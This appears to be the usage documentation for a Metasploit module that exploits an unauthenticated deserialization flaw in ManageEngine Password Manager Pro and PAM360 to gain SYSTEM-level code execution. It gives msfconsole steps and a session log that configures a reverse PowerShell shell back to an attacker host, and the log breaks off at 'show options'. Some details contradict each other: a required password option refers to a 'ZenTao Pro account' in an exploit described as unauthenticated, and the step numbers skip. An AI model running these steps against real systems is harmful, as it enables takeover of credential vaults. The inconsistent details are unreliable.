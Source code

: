 ## Vulnerable Application
This module exploits a unauthenticated deserialization vulnerability in the XML RPC interface exposed by Zoho
ManageEngine Password Manager Pro before 12101 and PAM360 before 5510. Note that ManageEngine Access Manager Plus
before 4303 is also affected provided one provides credentials, however this is not targeted by this exploit.

Successful exploitation results in unauthenticated RCE as the `NT AUTHORITY\SYSTEM` user.

### Installation
Vulnerable software for testing can be downloaded [here](https://archives2.manageengine.com/passwordmanagerpro/12100/ManageEngine_PMP_64bit.exe).
The patch can be downloaded from [here](https://archives2.manageengine.com/passwordmanagerpro/12101/ManageEngine_PasswordManager_Pro_12100_to_12101.ppm)

When installing the software follow the defaults. You can skip the registration however or any parts where you need
to fill in additional details to continue (these should have a `Skip` button so you can skip them).

## Verification Steps
1. Follow the installation instructions above.
2. Start msfconsole
3. Do: `use exploit/windows/http/zoho_password_manager_pro_xml_rpc_rce`
4. Do: `set RHOSTS [IP]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Optional: `set LPORT [local port to listen on]`
10. Do: `exploit`

## Options
### PASSWORD
The password for the ZenTao Pro account to authenticate with. This option is required.


## Targets
```
Id  Name
--  ----
0   Windows EXE Dropper
1   Windows Command
2   Windows Powershell
```

## Scenarios
### ManageEngine Password Manager Pro 12100 Running on Windows 11
```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/http/zoho_password_manager_pro_xml_rpc_rce
[*] Using configured payload cmd/windows/reverse_powershell
msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > set RHOSTS 172.17.245.94
RHOSTS => 172.17.245.94
msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > set LHOST 172.17.255.112 
LHOST => 172.17.255.112
msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > set LPORT 8899
LPORT => 8899
msf6 exploit(windows/http/zoho_password_manager_pro_xml_rpc_rce) > show options

Module options (exploit/windows/http/zoho_password_manager_pro_xml_rpc_rce):
```